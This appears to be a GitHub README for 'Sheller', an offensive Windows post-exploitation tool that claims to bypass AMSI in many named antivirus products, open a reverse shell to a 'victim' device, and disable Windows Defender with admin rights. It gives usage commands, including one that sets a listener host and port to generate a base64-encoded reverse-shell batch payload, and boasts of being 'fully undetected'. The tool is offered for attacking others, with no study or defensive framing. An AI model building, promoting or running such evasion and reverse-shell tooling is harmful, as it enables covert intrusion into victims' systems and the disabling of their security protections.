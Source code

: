# Sheller

Sheller is a Windows Post Exploitation Tool to bypass all known Anti-Malware Scanner Interfaces including Defender, Bitdefender, Kaspersky, McAfee, NANO-Antivirus, Kingsoft, Avast, Avira and many more.

![](https://user-images.githubusercontent.com/73026669/150165109-71b9f841-3b8e-42bd-a502-5d666244eaaf.png)

For use python3 and powershell (Windows) or pwsh (Linux) are required, the script supports Windows and Linux application.
The module sheller is to gain reverse shell to the victims device, providing several amsi bypass module such as encoding, chunking and var randomization.
There is a module to disable any windows defender antivirus feature if executed with admin privileges too.

To see Information:
```python 
python3 sheller.py
```

``
python sheller.py -s xy.bat -lh lh -lp 12 -b64: 
``

<a href="https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1">fully undetected AMSI Scan Results</a>
